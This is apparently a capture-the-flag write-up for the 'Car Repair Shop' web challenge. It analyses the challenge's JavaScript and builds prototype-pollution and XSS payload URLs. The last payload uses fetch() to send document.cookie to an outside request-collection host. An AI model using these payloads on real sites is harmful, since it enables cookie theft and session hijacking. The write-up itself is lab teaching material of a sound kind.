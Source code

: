 Car Repair Shop
----
"Your Car broke down?! Come to our shop, we repair all cars! Even very old ones."

Examination Site
----
* JavaScript prototype chain pollution
* XSS

Analysis
----
Viewing the source code,we will found several key files
```html
<script src="assets/js/car.class.js"></script>
<script src="assets/js/util.js"></script>
<!-- <script src="assets/js/car.key.js"></script> -->
```
From car.class.js
```javascript
 powerOn() {
        if (this.isStarted()) {
            infobox(`Well Done!`)
            nextCar()

        } else {
            $('.chargeup')[0].play()
        }
    }

    repair() {
        if(urlParams.has('repair')) {
            $.extend(true, this, JSON.parse(urlParams.get('repair')))
        }
    }

    ignition() {
        if (this.key == "") {
            infobox(`Looks like the key got lost. No wonder the car is not starting ...`)
        }
        if (this.key == "??") {
            infobox(`The car started!`)
            this.start()
        }
    }
}
```
From the Car class, we know the process of repairing the car:
Repair()->powerOn()->ignition().In addition,we found the exploit:
*$.extend(true, this, JSON.parse(urlParams.get('repair')))*
It is easy to know that the exploit is "JavaScript Prototypein pollution".We can write the key through the prototype chain.


From car.class.js
```javascript
porsche.key = "??"
porsche.start()
```
This js file can get the porsche's key and let it start.We have to load it.

From util.js
```javascript

const urlParams = new URLSearchParams(window.location.search)
const h = location.hash.slice(1)
const bugatti = new Car('Bugatti', 'T35', 'green', 'assets/images/bugatti.png')
const porsche = new Car('Porsche', '911', 'yellow', 'assets/images/porsche.png')

const cars = [bugatti, porsche]

porsche.repair = () => {
    if(!bugatti.isStarted()){
        infobox(`Not so fast. Repair the other car first!`)
    }
    else if($.md5(porsche) == '9cdfb439c7876e703e307864c9167a15'){
        if(urlParams.has('help')) {
            repairWithHelper(urlParams.get('help'))
        }
    }
    else{
        infobox(`Repairing this is not that easy.`)
    }
}
porsche.ignition = () => {
    infobox(`Hmm ... WTF!`)
}

$(document).ready(() => {
    const [car] = cars
    $('.fa-power-off').click(() => car.powerOn())
    $('.fa-car').click(() => car.info())
    $('.fa-lightbulb-o').click(() => car.light())
    $('.fa-battery-quarter').click(() => car.battery())
    $('.fa-key').click(() => car.ignition())
    $('.fa-wrench').click(() => car.repair())
    
    $('.fa-step-forward').click(() => nextCar())

    if(h.includes('Bugatti'))
        autoStart(bugatti)
    if(h.includes('Porsche'))
        autoStart(porsche)
})


const nextCar = () => {
    cars.push(cars.shift())
    $(".image").attr('src', cars[0].pic);
}


const autoStart = (car) => {
    car.repair()
    car.ignition()
    car.powerOn()
}


const repairWithHelper = (src) => {
    /* who needs csp anyways !? */
    urlRegx = /^\w{4,5}:\/\/car-repair-shop\.fluxfingersforfuture\.fluxfingers\.net\/[\w\d]+\/.+\.js$/;
    if (urlRegx.test(src)) {
        let s = document.createElement('script')
        s.src = src
        $('head').append(s)
    }
}


const infobox = (text) => {
    $('a').css({'pointer-events': 'none', 'border': 'none'})
    $('.infobox').addClass('infoAnimate')
        .text(text)
        .on('animationend', function() {
            $(this).removeClass('infoAnimate')
            $('a').css({'pointer-events': 'all', 'border': 'solid 1px rgba(255, 255, 255, .25)'})
    })
```
It is the main js file.The initialized bugatti and porsche have no keys, we need to write, and then trigger the whole process through * autoStart()*.
In addition,we found *Porsche.repair()* will call *repairWithHelper()* which will load outside js file.Yeah!We will load *car.key.js* with it.
So,let's do it.

Exploit
----

 According to the analysis just,we can add key to bugatti and call its *autoStart()*.And then,we can call *repairWithHelper()* to load *car.key.js*.For $.md5,since it is encrypted from the lowest level of prototype.So we can pollute it prototype to change its MD5 value.
Finally,the payload:
```bash
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/js/car.key.js#BugattiPorsche
```
Two cars have keys and they have been repaired.
![](https://raw.githubusercontent.com/f61d/challenges/master/web/JavaScript_prototype_chain_pollution/car_repair/index_files/car_key.png)

Howevers,there is nothing happen.Maybe this isn't the last step.We need to bypass *repairWithHelper()*  and XSS it,but I stopped here since I have no ideas.
By viewing master **WE_0WN_Y0U** writeup ,I make the payload:
```bash
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/javascript,alert(1)//.js#BugattiPorsche
```
And it work!
![](https://raw.githubusercontent.com/f61d/challenges/master/web/JavaScript_prototype_chain_pollution/car_repair/index_files/xss.png)

Now,we try to get the flag.We can use *fetch()* to send value to the website controlled by ourselves, such as **https://requestbin.com/** which can let us see what will be sent by *fetch()*
Finally,the payload like the following
```http
https://car-repair-shop.fluxfingersforfuture.fluxfingers.net/?repair={"key":"??","__proto__":{"__proto__":["lol"]}}&help=data://car-repair-shop.fluxfingersforfuture.fluxfingers.net/assets/javascript,fetch("https://en3c2qcyr45h7.x.pipedream.net/"+document.cookie)//.js#BugattiPorsche
```
The flag is: **flag{brumm_brumm_brumm_brumm_brumm_brumm_brumm}**

